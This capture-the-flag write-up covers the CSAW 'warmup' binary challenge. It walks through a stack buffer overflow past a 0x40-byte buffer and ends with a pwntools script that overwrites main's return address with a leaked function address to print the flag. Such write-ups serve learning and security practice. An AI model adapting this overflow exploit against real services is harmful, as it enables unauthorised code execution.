





The challenge provides us with a binary "warmup".
Running this binary prints a hex value, then takes user input.

Opening it in ida shows that it is printing the address of some symbol named "easy":

Lets see what this 'easy' symbol is:

The function 'easy' simply prints out the flag to us.

Looking back at the main method, the part that takes in user input is vulnerable to buffer overflow.
The buffer that it writes into is located at [bp - 40h], so anything past 0x40 bytes will overwrite other info.

If you are not familiar with the x86 stack frame layout, http://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64 has some good diagrams.
In short, the return address of our current function is stored at RBP + 8. If we overwrite this 
return address with the address of 'easy', the main function will return into easy, and will print
the flag for us.

I threw together a quick python script to run this exploit:
~~~
#pwntools provides many tools for exploitation challenges
from pwn import *

#establish a connection to the server running the "warmup" binary
r = remote('pwn.chal.csaw.io', 8000)

#receive the first message, which containts the address of 'easy'
msg = r.recv()
lines = msg.split('\n')

#slice the second line of the server message to get the address it sent and convert it to an integer
address = int(lines[1][4:],16)

#sends enough A's to fill the buffer up to the location of the return address, followed by the address of 'easy' that was leaked to us earlier
r.sendline("A" * (0x40 + 8) + p64(address))

#print the server response
print(r.recv())
~~~
Running this gives the flag:

